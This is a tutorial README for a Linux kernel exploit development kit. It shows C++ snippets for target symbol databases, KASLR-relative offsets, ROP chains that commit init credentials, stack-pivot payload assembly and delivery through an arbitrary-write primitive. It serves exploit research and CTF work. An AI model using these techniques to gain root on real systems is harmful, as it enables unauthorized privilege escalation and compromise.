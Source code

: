 # How to get started

## Initialize the Target Database

The target database contains all of the information needed to customize the exploit for the current target.

This section describes how to use the prebuilt database, extend it if necessary and how to make it replaceable with an updated version.

1. Add the necessary includes to the exploit code.

    ```c++
    #include <xdk/core.h>
    #include <xdk/postrip.h>
    ```

2. Include the **target_db**. `INCBIN` creates a read-only section in the exploit binary with the current target database content.

    ```c++
    INCBIN(target_db, "target_db.kxdb");
    ```

3. Initialize **TargetDb**. This constructor uses the `target_db.kxdb` file if exists, otherwise it fallbacks to the compile-time `INCBIN`'d database. This way, the exploit can be customized for running on other targets by supplying another `target_db.kxdb` after compilation time.

    ```c++
    TargetDb kxdb("target_db.kxdb", target_db);
    ```

4. Already available in database structure and symbol offsets are documented in [`kxdb_tool/config.py`](https://github.com/google/kernel-research/blob/main/kxdb_tool/config.py).
They are added for all the supported targets.

5. If the needed symbol is not in database, use `Target` object to add it. One object per target needed. For example:

    ```c++
    Target st("kernelctf", "cos-105-17412.294.34");

    st.AddSymbol("nft_last_ops", 0x1acaf20);

    kxdb.AddTarget(st);
    ```

6. Similar approach could be taken for adding structure and fields information:

    ```c++
    st.AddStruct("nft_expr_ops", 128, {
        {"dump", 64, 8},
        {"type", 120, 8} });
    ```

    > **Note**
    > `128` in the example above is a size of the `nft_expr_ops` structure. `{"dump", 64, 8}` field is located at the offset of 64 and as is a pointer, size would be 8 for 64-bit architecture.

7.  Detect which target the exploit is being run on.

    ```c++
    auto target = kxdb.AutoDetectTarget();
    printf("[+] Running on target: %s %s\n", target.GetDistro().c_str(), target.GetReleaseName().c_str());
    ```

8. Access pre-defined or added (via `Target`) structures and symbols using following calls:

    ```c++
    auto size = target.GetStructSize("nft_expr_ops"); // not used, just showing API usage
    auto offset = target.GetFieldOffset("nft_expr", "ops"); // get the offset of ops field in nft_expr structure

    *(uint64_t *)&buffer[offset] = kernel_base + target.GetSymbolOffset("nft_last_ops"); // the address of nft_last_ops
    ```

## Building the Payload

After leaking a kernel address and calculating the KASLR base, you can begin constructing the exploit payload.

1. Initialize a `Payload` object. This will serve as the buffer for our ROP chain and other necessary data.

    ```c++
    Payload payload(1024);
    ```

2. To set constants or to reserve areas that must not be altered by the `PayloadBuilder`, set their values explicitly beforehand:

   ```c++
   payload.SetU64(0, 0x100); // Sets 8 bytes at offset 0 to 0x100.
   payload.SetU32(24, 0);    // Sets 4 bytes at offset 24 to 0 (reserving the area).
   ```

3. Create the `RopChain`. This object is initialized with target-specific information and the KASLR base. You can then add predefined actions to it. The `Ret2Usr` utility helps in gracefully returning execution to a user-mode function after the kernel operations are complete.

    ```c++
    RopChain rop(target, kaslr_base);
    rop.AddRopAction(RopActionId::COMMIT_INIT_TASK_CREDS);
    RopUtils::Ret2Usr(rop, (void*)win);
    ```

    > **Note**
    > Available ROP actions could be found in `[`kxdb_tool/config.py`](https://github.com/google/kernel-research/blob/main/kxdb_tool/config.py).

## Assembling the Final Payload with PayloadBuilder

The `PayloadBuilder` automates the process of finding a suitable pivot gadget and combining it with your payload and ROP chain.

1. Initialize the `PayloadBuilder` with the target's available pivot gadgets and the KASLR base.

    ```c++
    PayloadBuilder builder(target.pivots, kaslr_base);
    ```

2. Add the `payload` object to the builder. You need to specify which register will point to your payload buffer (e.g., `Register::RSI`) and the offset within that buffer where the instruction pointer (`rip`) will be hijacked.

    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, Register::RSI, rip_off);
    ```

    In the situation when multiple registers contain a pointer to the payload, it's worth informing `PayloadBuilder` about it:
    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, {Register::RSI, Register::RAX}, rip_off);
    ```

    `PayloadBuilder` is capable of handling multiple buffers (and use them if needed to accomodate ROP chain actions). To inform `PayloadBuilder` about such a setup use:
    ```c++
    Payload payload1(payload_size_1);
    Payload payload2(payload_size_2);
    PayloadBuilder builder(target.pivots, kernel_base); // create builder

    builder.AddPayload(payload1, std::nullopt, std::nullopt);
    builder.AddPayload(payload2, Register::RSI, rip_off); // add payload, with register, and rip_offset
    ```

3. Add the `RopChain` to the builder.

    ```c++
    builder.AddRopChain(rop);
    ```

4. Build the final payload. The `Build()` method will find an appropriate pivot gadget that uses the specified register (`RSI` in this case) to redirect execution to your ROP chain. The necessary gadgets and the ROP chain itself will be written into the `payload` object you provided earlier.

    ```c++
    if(!builder.Build())
        exit(-1);
    ```

    Once built, the `payload` object contains the complete, ready-to-use exploit payload.

5. The contents of the final payload can be printed for inspection and debugging using the `HexDump::Print` method.

    ```c++
    printf("[+] Payload:\n");
    HexDump::Print(payload.GetUsedData());
    ```

    > **Note:**
    > The `GetUsedData()` method returns only the data actually written to the payload, excluding the unused bytes at the end of the buffer.

6. In cases when pointer to pivot gadget should be part of some other buffer or passed as a parameter it could be obtained in the following way after building the final payload:

   ```c++
    *(uint64_t *)&some_buffer[offset] = kernel_base + builder.GetStackPivot().GetGadgetOffset();
   ```
6. Retrieve the Final Payload for Exploitation

    Once `builder.Build()` has successfully completed, your `payload` object is now populated with the final exploit, including the stack pivot logic and your ROP chain.

    To use this payload (for example, by writing it into kernel memory using an arbitrary write primitive), you must retrieve the finalized byte vector.

    ```c++
    // Get the final, ready-to-use payload data
    std::vector<uint8_t> final_payload = payload.GetUsedData();

    // Now, use this vector in your arbitrary write function
    trigger_vuln_arb_write(victim_pipe_addr, final_payload);
    ```

    > **Note**
    > The `GetUsedData()` method returns a `std::vector<uint8_t>` containing only the portion of the payload buffer that was actually filled in by the builder (from the start of the buffer up to the `used_size_`). This is the exact data you need for the exploit.


